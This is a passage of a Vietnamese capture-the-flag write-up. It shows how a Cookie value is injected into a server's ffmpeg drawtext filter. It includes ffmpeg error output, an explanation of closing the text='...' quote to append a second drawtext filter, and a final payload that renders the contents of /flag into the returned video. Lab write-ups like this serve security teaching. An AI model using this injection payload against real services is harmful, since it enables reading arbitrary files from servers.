 Sẽ bị lỗi

```
[Parsed_drawtext_0 @ 0x7f350ab34ec0] Both text and text file provided. Please provide only one
[AVFilterGraph @ 0x7f3505c1ef80] Error initializing filters
Failed to set value 'drawtext=fontfile=font.otf:fontcolor=white:fontsize=128:x=(w-text_w)/2:y=(h-text_h)/2:text='1.1.1.1.:,drawtext=fontfile=font.ttf:textfile=/flag:fontcolor=white:fontsize=24:x=(w-text_w)/2:y=(h-text_h)/2'' for option 'filter_complex': Invalid argument
Error parsing global options: Invalid argument
```

Do như trong docs đã nói thì `text` và `textfile` không được cùng tồn tại được, và vì toàn bộ phần `text` chính là nội dung của `Cookie` cho nên là phải có một cách injection khác

### Flag

Sau khi tìm hiểu một chút thì biết được nếu thêm dấu `'` vào sau `1.1.1.1:` thì khi đưa vào server xử lí thì sẽ tách được cái `drawtext` của server và `drawtext` của mình, sẽ kiểu như thế này

```
'   drawtext=fontfile=font.otf:fontcolor=white:fontsize=128:x=(w-text_w)/2:y=(h-text_h)/2:text='1.1.1.1.':,drawtext=fontfile=font.ttf:textfile=/flag:fontcolor=white:fontsize=24:x=(w-text_w)/2:y=(h-text_h)/2' '

Chia ra 2 cục
'
drawtext=fontfile=font.otf:fontcolor=white:fontsize=128:x=(w-text_w)/2:y=(h-text_h)/2:text='1.1.1.1.'
:,drawtext=fontfile=font.ttf:textfile=/flag:fontcolor=white:fontsize=24:x=(w-text_w)/2:y=(h-text_h)/2'
'
```

- `'1.1.1.1.'` kết thúc chuỗi `text='...'` của server

- `:,drawtext=...` là một filter hợp lệ do mình chèn vào

- `'` cuối cùng đóng luôn toàn bộ filter nếu server ghép thêm `'` ở cuối, cái này thì thấy được rằng nó tự ghép thêm `'` ở cuối khi báo lỗi rồi

Payload lấy flag

```
1.1.1.1:':,drawtext=fontfile=font.ttf:textfile='/flag':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2
```

Test trên repeater thì thấy thành công trả về video
